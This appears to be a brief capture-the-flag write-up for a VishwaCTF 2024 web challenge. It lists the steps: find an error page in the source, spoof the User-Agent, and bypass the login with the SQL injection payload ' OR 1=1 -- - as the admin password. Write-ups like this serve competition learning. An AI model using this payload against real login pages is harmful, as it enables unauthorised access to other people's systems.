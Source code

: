 1. Find /Error.php in the source.

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/f02b4c92-76a0-4f42-8baf-bb587a9f403b)

3. Change User Agent to `IITIAN`

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/10d2f48b-8e89-449a-8a8f-4ab1728aed14)

4. SQLi in the password parameter on the login page to get the flag:
Username: `admin`
Password: `' OR 1=1 -- -`

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/51814346-beb0-496a-be8f-523b30be1920)
